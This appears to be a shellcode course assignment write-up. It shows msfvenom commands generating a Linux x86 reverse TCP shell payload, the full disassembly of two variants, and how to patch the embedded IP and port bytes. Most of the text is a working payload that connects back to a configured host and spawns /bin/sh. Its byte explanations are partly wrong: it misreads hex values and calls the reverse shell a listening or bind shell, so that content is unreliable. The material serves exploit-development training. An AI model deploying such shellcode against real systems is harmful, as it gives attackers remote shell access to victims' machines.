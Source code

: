 # Assignment 2

## What to do 

• Create a Shell_Reverse_TCP shellcode 
   
    – Reverse connects to configured IP and Port 
   
    – Execs shell on successful connection 

• IP and Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_reverse_shell from Metasploit.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A80101        push dword 0x101a8c0
      0000001D  68020022B8        push dword 0xb8220002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

Once we have it, we need to find the place where the IP and the PORT are injected. We locate it by changing the LHOST and LPORT variables when running metasploit and comparing both outputs.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.123 LPORT=8999 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A8017B        push dword 0x7b01a8c0
      0000001D  6802002327        push dword 0x27230002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

We can see that the position where the code is different is 

      00000018  68C0A80101        push dword 0x101a8c0 (101a8c0 in litte endian is 192.168.1.1 where 01 is 1, 01 is 1, 8a is 168 and 0c is 192 in decimal)
      0000001D  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000018  68C0A8017B        push dword 0x7b01a8c0 (7b01a8c0 in litte endian is 192.168.1.123 where b7 is 123, 01 is 1, 8a is 168 and 0c is 192 in decimal)
      0000001D  6802002327        push dword 0x27230002 (2723 in litte endian is 2327 which is 8999 in decimal)

So, we only need to modify these twolines  every time we want to change the listening port. 

To do that easily, you can use compile_reverse_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

The steps that follows the shell before it starts to listen are showed here:

![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%201/reverse.png)
